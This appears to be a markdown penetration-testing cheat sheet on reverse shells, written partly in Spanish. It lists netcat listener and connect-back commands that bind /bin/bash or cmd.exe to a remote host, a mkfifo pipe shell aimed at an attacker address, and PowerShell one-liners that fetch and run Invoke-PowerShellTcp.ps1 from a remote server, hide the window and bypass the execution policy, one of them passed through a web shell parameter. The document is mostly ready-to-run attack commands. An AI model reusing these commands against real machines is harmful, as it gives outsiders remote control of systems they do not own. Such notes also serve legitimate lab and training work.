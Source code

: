 ```yaml
---
title: Reverse Shells
category: exploiting
order: 1
---
```



---
## ncat

* **hacker:**
```
root@kali: nc -nlvp 666
or
root@kali:  rlwrap nc -nlvp 666
```

* **target:**
```
gil@ubuntu: nc -nv 10.10.0.25 666 -e /bin/bash
```
```
c:> nc.exe 192.168.100.113 4444 –e cmd.exe
```

* **If you have the wrong version of netcat installed, try**

 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc attackerip >/tmp/f
```


## powershell
### options
* -NoP , -noprofile: No carga el windows profile
* -noni, -NonInteractive : asegura que sea no interactiva
*  -Exec Bypass, -ExecutionPolicy Bypass:  will not block the execution of any scripts or create any prompts
* -W Hidden: prevent powershell from displaying a window
*

### shells

* desde url
```
con invoke-powershell modificado, agregando los datos al final del script
shell.php?cmd=echo IEX(New-Object System.Net.WebClient).downloadString('http://10.10.14.6/Invoke-PowerShellTcp.ps1') | powershell -noprofile -ep bypass
```

* desde prompt
```
powershell -NoP -W Hidden -Exec Bypass -c "iex New-Object Net.WebClient).DownloadString('http://10.10.14.6/Invoke-PowerShellTcp.ps1')";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 666
```
* run 64bits powershell
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
```
